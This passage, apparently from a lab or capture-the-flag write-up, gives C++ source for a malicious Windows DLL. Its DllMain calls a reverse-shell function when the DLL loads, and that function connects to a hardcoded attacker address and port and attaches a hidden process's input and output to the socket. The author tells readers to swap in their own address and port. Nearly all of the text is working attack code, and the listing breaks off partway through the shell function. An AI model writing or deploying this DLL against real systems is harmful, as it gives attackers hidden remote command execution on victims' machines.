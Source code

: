 ***dllmain.cpp*** I tried awhole host of different dllmains this is the one i got to work. it calls in the header section revshell.h, DLL_PROCESS cal the revshell and assembles our payload.  

```
#include "rev_shell.h"
#include <windows.h>
#include <stdio.h>

BOOL WINAPI DllMain( HINSTANCE hinstDLL,
                        DWORD fwdReason,
                        LPVOID lpReservered)
{
        switch (fwdReason)
        {
        case DLL_PROCESS_ATTACH:
                rev_shell();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```

***revshell.cpp*** CHANGE THE REMOTE_PORT AND REMOTE_ADDR

```
#include <stdio.h>                                                                               
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>

#pragma comment(lib, "Ws2_32.lib")

#define REMOTE_ADDR "10.10.14.2"
#define REMOTE_PORT "9135"

void rev_shell()
{
        FreeConsole();

        WSADATA wsaData;
        int iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
        struct addrinfo *result = NULL, *ptr = NULL, hints;
        memset(&hints, 0, sizeof(hints));
        hints.ai_family = AF_UNSPEC;
        hints.ai_socktype = SOCK_STREAM;
        hints.ai_protocol = IPPROTO_TCP;
        getaddrinfo(REMOTE_ADDR, REMOTE_PORT, &hints, &result);
        ptr = result;
        SOCKET ConnectSocket = WSASocket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol, NULL, NULL, NULL);                                              
        connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        STARTUPINFO si;
        PROCESS_INFORMATION pi;
        ZeroMemory(&si, sizeof(si));
        si.cb = sizeof(si);
        ZeroMemory(&pi, sizeof(pi));
        si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_HIDE;
        si.hStdInput = (HANDLE)ConnectSocket;
        si.hStdOutput = (HANDLE)ConnectSocket;
        si.hStdError = (HANDLE)ConnectSocket;
```